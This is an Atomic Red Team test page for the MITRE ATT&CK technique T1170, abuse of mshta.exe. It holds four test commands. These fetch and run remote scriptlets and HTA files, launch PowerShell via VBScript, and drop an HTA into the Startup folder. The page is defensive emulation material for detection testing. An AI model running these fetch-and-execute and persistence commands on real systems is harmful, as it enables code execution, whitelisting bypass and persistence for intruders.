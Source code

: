 # T1170 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe](#atomic-test-2---mshta-calls-a-local-vbscript-file-to-launch-notepadexe)

- [Atomic Test #3 - Mshta executes VBScript to execute malicious command](#atomic-test-3---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-4---mshta-executes-remote-html-application-hta)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 
```
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```






<br/>
<br/>

## Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe
Tests execution of a local program by a VBScript file called by Mshta
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file | Create a local VBScript file | path | C:&#92;Temp&#92;mshta_notepad.vbs|


#### Attack Commands: Run with `command_prompt`! 
```
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""{local_file_path}"")(window.close)")
```






<br/>
<br/>

## Atomic Test #3 - Mshta executes VBScript to execute malicious command
Run a local VB script to run local user enumeration powershell command

This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 
```
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file $PathToAtomicsFolder\T1170\src\powershell.ps1"":close")
```






<br/>
<br/>

## Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)
Execute an arbitrary remote HTA.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hta_url | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/T1170.hta|
| temp_file | temp_file location for hta | string | $env:appdata&#92;Microsoft&#92;Windows&#92;Start Menu&#92;Programs&#92;Startup&#92;T1170.hta|


#### Attack Commands: Run with `powershell`! 
```
$var =Invoke-WebRequest "#{hta_url}"
$var.content|out-file "#{temp_file}"
mshta "#{temp_file}"
```

#### Cleanup Commands:
```
remove-item "#{temp_file}" -ErrorAction Ignore
```





<br/>
